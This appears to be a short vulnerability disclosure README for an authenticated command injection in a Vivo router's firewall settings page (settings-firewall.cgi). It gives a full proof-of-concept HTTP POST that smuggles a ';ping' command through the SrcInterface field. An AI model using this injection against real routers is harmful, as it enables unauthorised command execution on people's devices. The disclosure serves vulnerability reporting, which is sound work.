 # Vivo Code Execution Firewall

Vivo brazilian router is vulnerable to a authenticated remote code execution in the firewall settings page.<br>
The "SrcInterface" was tested and it is vulnerable.<br>
It is possible to run a ping command in the router.<br>
Run a tcpdump in the other end and see the packets being received.<br>

POST /cgi-bin/settings-firewall.cgi HTTP/1.1<br>
Host: 192.168.15.1<br>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0<br>
Accept: text/html, */*; q=0.01<br>
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3<br>
Accept-Encoding: gzip, deflate, br<br>
Content-Type: application/x-www-form-urlencoded<br>
X-Requested-With: XMLHttpRequest<br>
Content-Length: 273<br>
Origin: http://192.168.15.1<br>
Connection: keep-alive<br>
Referer: http://192.168.15.1/cgi-bin/settings-firewall.cgi?isEdit=1&ApplyFlag=1&Index=0<br>
Cookie: COOKIE_SESSION_KEY=8cc78d1a049bbc63f372d8cfec6886d1<br>
Priority: u=0<br>

editflag=1&editIndex=0&Order=1&RuleName=teste&Protocol=TCP&IcmpType=&Icmpv6Type=&IPVersion=4&SrcInterface=br0;ping 192.168.15.123;&Target=Accept&ActionValue=Local&LocalPort=80&LocalPortRangeMax=&LocalIP=192.168.15.1&RemotePort=80&RemotePortRangeMax=&LocalMask=&RemoteMask=&RemoteIP=192.168.15.2<br><br>

![9c64e2bf6c0643d5a3ca768dd3e1a5bb](https://github.com/user-attachments/assets/e7ce2102-72e6-44af-9eac-0b530b3cfd4e)


![6d1f04268c754ba182bfabfb1c85fb35](https://github.com/user-attachments/assets/84d68d95-92cb-4db8-a8b4-1ce31aedbfef)
